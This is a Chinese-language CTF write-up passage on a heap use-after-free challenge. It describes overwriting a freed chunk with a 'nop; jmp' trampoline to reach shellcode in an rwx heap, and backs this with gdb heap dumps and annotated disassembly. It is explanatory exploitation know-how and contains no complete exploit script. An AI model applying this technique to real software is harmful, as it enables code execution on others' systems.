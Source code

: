 ### 解题思路

free的时候没有置空指针，show的时候会先判断此索引位置func_table_list偏移0x10是否为预先设置的函数，是则正常走流程，否则调用Index[idx]->0x10处的指针

程序每Add一次，添加一个0x20的索引堆块和一个保存数字的堆块

只需要设法将一个索引堆块的prev改成

In [12]: print disasm('90eb4d00'.decode('hex'))
   0:   90                      nop  
   1:   eb 4d                   jmp    0x50  

并将shellcode写入+0x50的堆块中，就能执行（加壳的程序堆块设置的权限是rwx）


gdb-peda$ heapinfo  
(0x20)     fastbin[0]: 0x5621e1d04d00 --> 0x5621e1d04d70 --> `0x5621e1d04c50` --> 0x0  
(0x30)     fastbin[1]: 0x0  
(0x40)     fastbin[2]: 0x0  
(0x50)     fastbin[3]: 0x5621e1d04d20 --> 0x5621e1d04d90 --> 0x0  
(0x60)     fastbin[4]: 0x0  
(0x70)     fastbin[5]: 0x0  
(0x80)     fastbin[6]: 0x0  
(0x90)     fastbin[7]: 0x0  
(0xa0)     fastbin[8]: 0x0  
(0xb0)     fastbin[9]: 0x0  
                  top: 0x5621e1d04de0 (size : 0x20220)   
       last_remainder: 0x0 (size : 0x0)   
            unsortbin: 0x5621e1d04c70 (size : 0x90)  
gdb-peda$ parseheap   
addr                prev                size                 status              fd                bk                    
0x5621e1cf3000      0x0                 0x11c10              Used                None              None  
0x5621e1d04c10      0x0                 0x20                 Used                None              None    
0x5621e1d04c30      0x6                 0x20                 Used                None              None    
`0x5621e1d04c50`      0xcccccc004deb90    0x20                 Freed                0x0              None  
0x5621e1d04c70      0x20                0x90                 Freed     0x7fbcd1d27b78    0x7fbcd1d27b78  
0x5621e1d04d00      0x90                0x20                 Freed     0x5621e1d04d70              None  
0x5621e1d04d20      0x10                0x50                 Freed     0x5621e1d04d90              None  
0x5621e1d04d70      0x0                 0x20                 Freed     0x5621e1d04c50              None  
0x5621e1d04d90      0x10                0x50                 Freed                0x0              None  

调用Index[idx]->0x10要寻址两次

.text:0000000000001844                 lea     rdx, Index   
.text:000000000000184B                 mov     rdi, [rdx+rax*8]  # rax=0 , rdi=0x5621e1d04d10  
.text:000000000000184F                 test    rdi, rdi  
.text:0000000000001852                 jz      short loc_18C8   
.text:0000000000001854                 mov     rax, [rdi]  # rax=0x5621e1d04d70  
.text:0000000000001857                 lea     rdx, sub_1E20    
.text:000000000000185E                 mov     rax, [rax+10h]  # rax=0x5621e1d04c50  


